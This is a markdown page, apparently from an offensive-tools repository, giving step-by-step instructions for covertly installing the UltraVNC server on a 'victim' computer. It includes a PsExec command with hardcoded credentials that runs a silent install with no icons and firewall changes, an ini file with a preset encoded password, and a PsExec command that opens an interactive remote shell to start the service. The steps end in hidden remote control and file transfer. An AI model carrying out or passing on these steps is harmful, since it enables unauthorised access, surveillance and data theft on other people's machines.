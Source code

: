 # VNC (UltraVNC) Remote Desktop Connectin Server/Client

UltraVNC is an open-source remote-administration/remote-desktop-software utility. The client supports Microsoft Windows and Linux but the server only supports Windows. It uses the VNC protocol to control/access another computer remotely over a network connection.

![UltraVNC](assets/uvnc.jpg "Open source UltraVNC remote desktop client/server")

# Install VNC Server to Victim Computer

You can remotely view, control or transfer files the victim computer using the UltraVNC tool. For this, follow the steps below.

## Step 1: Download UltraVNC setup

Copy current version of ultravnc from the website to your computer as **"c:\\uvncsetup.exe"**.

## Step 2: Start installation 

To start silent installation on victim computer run **"uvncsetup.exe"** as remotely using **PsExec.exe** below. The command copy the specified executable (uvncsetup.exe) to the remote system for execution:

> psexec \\\victim -u admin -p admin0 -h -i -c C:\uvncsetup.exe /SP- /VERYSILENT /SUPPRESSMSGBOXES /NOCANCEL /NORESTART /CLOSEAPPLICATIONS /FORCECLOSEAPPLICATIONS /LOGCLOSEAPPLICATIONS /RESTARTAPPLICATIONS /NOICONS /FIREWALL /NOVIEW /COMPONENTS="ultravnc_server" /TASKS="installservice,stopservice" /DIR="%programfiles%\uvnc"

The inno setup parameters above allow the installation to complete silently. The installation files will be saved in the **"%program files%\uvnc"** directory on victim computer.

## Step 3: Define new password 

Create the **ultravnc.ini** file with the password defined in the **"%programfiles%\uvnc"** of the victim computer. 
UltraVNC password is "**admin0**" defined in **ultravnc.ini**. The ini file content is below:

` [ultravnc]
` passwd=56B6ACA18D1BA76008
` passwd2=56B6ACA18D1BA76008

Copy the file to **"%programfiles%\uvnc"** folder on victim computer.

## Step 4: Restart the service

Start the service for the password to take effect. To restart the service open an interactive remote shell to victim computer below:

> psexec \\victim -u admin -p admin0 -h -i cmd.exe

And run below command over remote shell:

> net start uvnc_service

## Step 5: Restart the service

Run UltraVNC viewer and connect to victim computer. You can control it with mouse/keyboard or download/upload files via UltraVNC's  file manager.

![UltraVNC Viewer](assets/uvnc_viewer.png "UltraVNC Viewer")